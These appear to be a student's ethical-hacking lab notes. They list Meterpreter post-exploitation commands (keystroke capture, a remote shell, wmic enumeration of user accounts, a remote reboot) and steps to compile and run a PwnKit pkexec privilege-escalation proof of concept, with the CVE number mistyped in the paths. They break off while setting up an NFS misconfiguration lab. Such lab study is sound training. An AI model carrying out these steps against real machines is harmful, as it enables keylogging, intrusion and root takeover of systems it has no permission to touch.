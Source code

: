 	keyscan_start
[Windows 11]
Create a file and writes something
test.txt -> "This is a secrete file.""
[Parrot]

	keyscan_dump 
	idletime
	shell
	dir /a:h ->to retrieve the directory names with hidden attributes.
	sc queryex type=service state=all ->to list all the available services
	netsh firewall show state -->details about specific service
	netsh firewall show config -->To view current firewall settings
	wmic /node:"" product get name,version,vendor
	wmic cpu get  ->to retrieve the processor’s details.
	wmic useraccount get name,sid -> to retrieve login names and SIDs of the users.
	wmic os where Primary='TRUE' reboot -> to reboot the target system.

Observe that the Meterpreter session also dies as soon as you shut down the victim machine.

![[Pasted image 20231110191153.png]]

--------

**Task 3: Escalate privileges by exploiting vulnerability in pkexec(pkexec CVE-2021-4034)

Polkit or Policykit is an authorization API used by programs to elevate permissions and run processes as an elevated user.
In the pkexec.c code, there are parameters that doesn’t handle the calling correctly which ends up in trying to execute environment variables as commands.
Using a proof of concept code to execute the attack on the target system and escalate the privileges from a standard user to a root user.		
[parrot]
user:attacker

	mkdir /tmp/pwnkit
	mv CVE-2021-4043 /tmp/pwnkit/
	cd /tmp/pwnkit/CVE-2021-4043
	make
	./cve-2021-4043
a shell will open

	whoami  -> root access got

-----

**Task 4: Escalate privileges in Linux machine by exploiting misconfigured NFS**
Network File System (NFS) is a protocol that enables users to access files remotely through a network. Remote NFS can be accessed locally when the shares are mounted.

[Ubuntu]

	sudo apt-get update
	sudo apt install nfs-kernel-server
	sudo nano /etc/exports
Note: **/etc/exports** file holds a record for each directory that user wants to share within a network machine.
